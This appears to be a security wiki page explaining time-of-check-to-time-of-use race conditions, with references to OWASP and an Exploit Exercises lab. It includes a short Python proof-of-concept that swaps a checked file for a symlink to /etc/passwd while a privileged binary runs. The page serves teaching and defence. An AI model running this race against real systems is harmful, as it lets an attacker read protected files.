 ```yaml
---
description: Gotta go fast!
---
```


# Race Conditions

## Time of check to time of use

Time of check to time of use \(TOCTOU\) bugs are classes of bugs in which access or permissions to a resource are verified independently of their actual use.  In cases like this it requires something that the user can modify independently of the process.  

A classic example is that of the access to fopen call in C.  Take the following example of a binary which checks we can access a file, say `/home/ubuntu/testfile` and then after a certain amount of time opens it and displays the results:

```python
import os
import subprocess
import time
import sys

os.system('touch /home/ubuntu/testfile')
proc = subprocess.Popen(['/usr/bin/opentestfile', '/home/ubuntu/testfile'], stdout=subprocess.PIPE)
time.sleep(.5) #Do this to ensure the access check runs
os.system('rm /home/ubuntu/testfile')
os.system('ln -s /etc/passwd /home/ubuntu/testfile')
proc.wait()
print proc.communicate()
os.system('rm /home/ubuntu/testfile')
```

This form of race-condition can take many forms from socket communications to file access.

#### References

[Nebula 10 - Exploit Exercises](http://blog.kernelsecurity.es/2013/06/06/nebula-level10-exploiting-access-syscall-toctou-race-condition/)  
[Wikipedia](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)  
[OWASP - Time of check to time of use](https://www.owasp.org/index.php/Time_of_check,_time_of_use_race_condition)

